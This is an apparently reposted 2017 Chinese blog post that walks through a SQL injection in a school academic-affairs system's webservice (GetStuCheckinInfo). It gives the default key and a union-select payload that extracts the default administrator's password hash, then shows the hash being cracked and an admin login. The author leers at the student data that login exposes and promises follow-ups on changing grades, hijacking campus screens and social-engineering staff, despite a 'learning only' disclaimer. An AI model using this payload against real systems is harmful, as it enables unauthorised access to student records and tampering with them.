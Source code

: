 ```yaml
---
layout: post
title: 某教务系统注入getshell提权一条龙(上)
date: 2017-03-14 11:14:26
comments: true
tags:
	- 安全攻防
---
```

### 前言
><font color="#ff0000">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**</font>

### 正文
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;这篇文章是我在去年的时候在土司和90上写的一篇文章，当时也将漏洞详细上报给乌云了。今时不同往日，如今乌云关了，<!--more-->土司也太久没登成了僵尸号。于是把文章搬过来，凑下文章篇数。

### 漏洞详情
 >今天的目标

![](/images/pasted-45.png)

 >找到webservice接口，路径在service.asmx

![](/images/pasted-46.png)

>漏洞在于
> * GetStuCheckinInfo
>这个接口

![](/images/pasted-47.png)

> 我们只需要关注`xh`和 `strKey` 这两个节点就可以了。

> 其中的strKey都是默认的`KKKGZ2312`

> `Xh`这个节点就是我们的注入语句了。

poc:
```sql
222222' union select 
Null,kl,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null
,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null,Null from yhb where yhm='jwc01
```

>yhb   用户表
>yhm   用户名
>kl    口令

>表示查询的是yhm表中jwc01的kl记录。(该教务系统默认管理员是jwc01)

>构造好语句开始注入

![](/images/pasted-48.png)

>可以看到jwc01用户的密码密文出来了。

>我们拿去解密

![](/images/pasted-49.png)

>Ok可以登录了

![](/images/pasted-50.png)

>Bingo

![](/images/pasted-51.png)

>靓女多多，

![](/images/pasted-52.png)


### 总结
> 不想让文章太长，getshell提权部分就放在下篇。
> 后期还会写更多的渗透文章，漫游内网，更改led大屏幕，免费上网，好(gai)好(cheng)学(ji)习，社工辅导员qq微博等等。
>再次提醒：
> **文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**